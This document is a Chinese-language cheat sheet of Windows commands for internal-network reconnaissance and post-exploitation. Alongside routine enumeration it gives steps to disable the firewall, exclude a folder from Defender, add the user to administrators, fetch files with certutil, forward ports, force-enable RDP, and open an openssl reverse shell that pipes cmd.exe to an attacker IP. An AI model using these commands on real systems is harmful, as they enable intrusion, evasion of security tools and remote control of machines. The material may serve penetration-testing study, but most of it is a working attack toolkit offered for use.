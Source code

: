 # Windows内网信息搜集

参考：
- [浅析内网信息收集](https://xz.aliyun.com/t/8291)


### 网络配置
```
ipconfig /all
```

### 操作系统信息/英文
```
systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### 查看杀毒软件信息
```
wmic /namespace:\\root\securitycenter2 path antivirusproduct GET displayName,productState, pathToSignedProductExe
displayName              pathToSignedProductExe                                          productState
Windows Defender         windowsdefender://                                              393488
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
金山毒霸铠甲防御         c:\program files (x86)\kingsoft\kingsoft antivirus\kxetray.exe  331776
ESET Endpoint Antivirus  C:\Program Files\ESET\ESET Endpoint Antivirus\ecmd.exe          266256
```

### 查看计划任务信息
```
schtasks  /query  /fo  LIST /v
```

### 查看用户列表
```
net user
```

### 查看当前在线用户
```
query user || qwinsta
```


### 查看端口开放信息
```
netstat –ano
```

### 端口转发以及删除
```
端口转发到444端口：
netsh interface portproxy add v4tov4 listenport=444 connectport=3389 listenaddress=0.0.0.0 connectaddress=127.0.0.1 protocol=tcp

给444端口放行：
netsh advfirewall firewall add rule name=open444 protocol=TCP dir=in localport=444 action=allow


删除端口转发规则：
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=444![Uploading image.png…]()
```

### 查看补丁信息
```
systeminfo
```

或者
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### 在某目录下的某些后缀文件中查找某文件内容
```
findstr /s /n /i /c:"class WebPage" "D:\xxx\yyy\*.cs"
```
### Windows下查看IIS的各个网站的目录以及配置信息
```
appcmd list site /config
C:\Windows\SysWOW64\inetsrv\appcmd.exe list site /config
```

### 查看防火墙信息
```
netsh firewall show config
```

### 关闭防火墙
Windows server 2003系统及以前版本，命令如下：
```
netsh firewall set opmode disable
```
Windows server 2003之后系统版本，命令如下：
```
netsh advfirewall set allprofiles state off
```

### 下载文件到某目录
```
certutil.exe -urlcache -split -f "https://www.baidu.com/" C:\baidu.txt
```

### ICMP探测内网
```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.85.%I | findstr "TTL="
```

### 根据时间查看目录下的文件
```
dir /o:d
```

### 将自己加入管理员
```
net localgroup administrators domain\username /add
```

### Defender排除某个目录：
powershell -ExecutionPolicy Bypass Add-MpPreference -ExclusionPath "C:\Users\admin\Downloads"

### Openssl.exe反弹shell：
攻击者：
```
D:\Git\usr\bin\openssl.exe req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #生成证书
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 80 #命令输入
D:\Git\usr\bin\openssl.exe s_server -quiet -key key.pem -cert cert.pem -port 443 #命令输出
```
被控端：
```
D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:80|cmd.exe|D:\Git\usr\bin\openssl.exe s_client -quiet -connect IP:443
```

### Windows10下开启Telnet命令：

```
开启
dism /online /Enable-Feature /FeatureName:TelnetClient
关闭
dism /online /Disable-Feature /FeatureName:TelnetClient
```


### 开启RDP
```
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 0   //先关闭rdp
netsh advfirewall firewall add rule name="RDP7" protocol=TCP dir=in localport=3389 action=allow
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v "portnumber" /t REG_DWORD /d "3389" /f
wmic RDTOGGLE WHERE ServerName='自己的hostname' call SetAllowTSConnections 1  //再开启rdp
```
